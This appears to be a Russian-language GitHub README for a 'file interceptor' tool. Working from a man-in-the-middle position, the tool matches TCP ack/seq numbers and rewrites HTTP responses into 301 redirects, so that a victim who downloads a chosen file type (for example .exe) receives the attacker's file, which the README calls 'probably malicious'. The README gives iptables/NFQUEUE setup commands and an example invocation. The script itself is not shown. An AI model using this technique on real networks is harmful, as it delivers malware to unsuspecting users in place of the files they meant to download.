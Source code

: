 # Программа файловый перехватчик <img align="" src="https://github.com/Maxsmile123/Maxsmile123/blob/333a0368f66c4b37dfefea27ff1833aba50d7ad3/res/hacker.png" height="25px" width="25px">
Пользователь уже должен быть человеком посередине. Цель программы проста: жертва скачивает
файл определённого формата, а программа перенаправляет запрос на скачивание нашего файла, вероятно, вредоносного.
Для этого, парсим HTTP запрос и ответ. Для идентификации запроса и соответствующего его ответа, проверяем
равенства полей "ask" TCP запроса и "seq" TCP ответа. 
После, подменяем любой HTTP ответ на код 301 - Moved Permanently. Жертва перенаправляется по нашей ссылке
и скачивает её содержимое.

## Взаимодействие: 
Если вы хотите, чтобы жертва скачала что-то с вашего компьютера, то стоит запустить свой веб-сервер:
```shell
service apache2 start
iptables --flsuh
iptables -I INPUT -j NFQUEUE --queue-num 0
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I FORWARD -j NFQUEUE --queue-num 0
```
При запуске программы указываются два аргумента:     
**'-t'** - формат файла, скачав который, произойдёт выполнение подмены. Указывать строчными буквами, без точки.       
**'-r'** - ссылка на файл, который в итоге скачает жертва.  

```shell
python3 file_interceptor.py -t exe -r https://www.python.org/ftp/python/3.10.0/python-3.10.0-amd64.exe
```
